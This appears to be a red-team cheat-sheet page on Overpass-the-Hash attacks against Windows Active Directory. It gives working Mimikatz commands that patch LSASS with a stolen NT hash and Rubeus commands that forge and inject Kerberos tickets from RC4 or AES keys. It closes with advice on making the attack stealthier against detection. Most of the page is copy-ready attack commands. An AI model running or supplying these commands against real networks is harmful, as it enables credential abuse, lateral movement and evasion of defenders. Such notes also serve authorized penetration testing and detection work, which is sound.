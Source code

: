 # Overpass-the-Hash




## Mimikatz

* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), opens the LSASS process and patch it with the supplied NT hash. This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT:

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::pth /user:snovvcrash /domain:megacorp.local /run:c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ntlm:fc525c9683e8fe067095ba2ddc971889" "exit"
```




## Rubeus

* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), legitimately ask Kerberos for TGT, import it and interact with the process (need elevated context):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /password:Passw0rd! /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
```

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) manually, then use Rubeus with user's NT hash to ask for a TGT and import it:

```
Cmd > runas /netonly /user:megacorp.local\snovvcrash cmd
Enter the password for megacorp.local\snovvcrash: dummy_Passw0rd!
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /ptt
```

A more opsec safe approach is to use AES key (KeyType 0x12) instead of RC4-HMAC (KeyType 0x17) alongside with `/opsec` switch which instructs Rubeus not to do pre-auth (mimics standard Kerberos behavior):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /ptt /opsec
```
